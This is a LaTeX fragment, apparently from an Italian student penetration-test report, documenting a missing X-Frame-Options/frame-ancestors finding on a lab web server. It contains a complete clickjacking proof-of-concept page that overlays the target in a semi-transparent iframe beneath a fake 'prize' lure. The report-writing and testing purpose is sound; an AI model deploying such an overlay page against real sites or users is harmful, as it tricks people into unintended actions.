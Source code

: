 \documentclass[11pt]{report}
\begin{document}
	
	\subsection{Missing Anti-Clickjacking (UI Redressing PoC)}
	L'assenza degli header \texttt{X-Frame-Options} e \texttt{Content-Security-Policy} con direttiva \texttt{frame-ancestors} sulla pagina \texttt{index.php} è stata verificata tramite un \textit{Proof of Concept} (PoC) locale.
	È stata sviluppata una pagina HTML di test che riproduce il principio di un attacco di \textit{UI Redressing}: l'interfaccia bersaglio viene caricata all'interno di un \texttt{iframe} con opacità ridotta (\texttt{opacity: 0.4}) e sovrapposta a un pulsante-esca, nel caso specifico un finto link al portale \textit{Exploit-DB}.
	
	\begin{tcolorbox}[colback=white, colframe=headerblue, title=PoC HTML per l'attacco di Clickjacking, fonttitle=\bfseries]
		\begin{verbatim}
			<!DOCTYPE html>
			<html>
			<head>
			<title>Clickjacking PoC - Gruppo 11</title>
			<style>
			body { position: relative; text-align: center; margin-top: 50px; }
			.esca { 
				position: absolute; top: 120px; left: 45%; z-index: 1; 
				padding: 10px 20px; background-color: red; color: white;
			}
			.vulnerabile {
				position: absolute; top: 0; left: 0; width: 100%; height: 500px;
				z-index: 2; opacity: 0.4; border: none; /* Trasparente */
			}
			</style>
			</head>
			<body>
			<h2>Congratulazioni! Hai vinto un premio.</h2>
			<a href="https://www.exploit-db.com" class="esca">Clicca qui per ritirarlo!</a>
			
			<iframe src="http://192.168.238.7/index.php" class="vulnerabile"></iframe>
			</body>
			</html>
		\end{verbatim}
	\end{tcolorbox}
	
	Nel funzionamento teorico dell'attacco, un utente attratto sulla pagina e indotto a cliccare sul pulsante-esca attiverebbe in realtà il pulsante ``Submit'' del form di \texttt{index.php} sottostante. La dimostrazione conferma la vulnerabilità del web server al \textit{UI Redressing}, ma , trattandosi di un form privo di logica applicativa reale (la già citata \textit{Fake Admin Area}) , il vettore non offre alcun avanzamento concreto verso la compromissione del bersaglio. Si segnala inoltre che lo sfruttamento richiederebbe tecniche di Ingegneria Sociale per veicolare la vittima sulla pagina, attività esplicitamente esclusa dal perimetro delle \textit{Rules of Engagement} (cfr. sezione Target Scoping).
	
\end{document}
